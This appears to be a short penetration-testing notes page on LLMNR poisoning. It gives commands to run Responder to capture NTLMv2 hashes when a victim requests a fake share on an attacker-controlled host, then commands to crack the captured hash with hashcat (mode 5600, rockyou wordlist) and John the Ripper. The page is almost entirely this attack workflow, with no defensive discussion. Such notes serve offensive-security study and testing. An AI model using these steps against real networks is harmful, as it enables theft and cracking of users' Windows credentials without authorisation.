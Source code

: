 # LLMNR Poisoning

## Practical

### Capture NTLMv2 Hash

#### Start Responder

```
sudo responder -I eth0
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Responder </p></figcaption></figure>

{% hint style="info" %}
Note: You have to request for an non existent share in the victim machine

\\\\\<Attacker IP>\FakeShare
{% endhint %}

#### Captured Hash

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Crack NTLMv2 Hash

#### Hashcat

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Hashcat</p></figcaption></figure>

#### John

```
john --wordlist=<wordlist.txt> hash.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>John The Ripper</p></figcaption></figure>
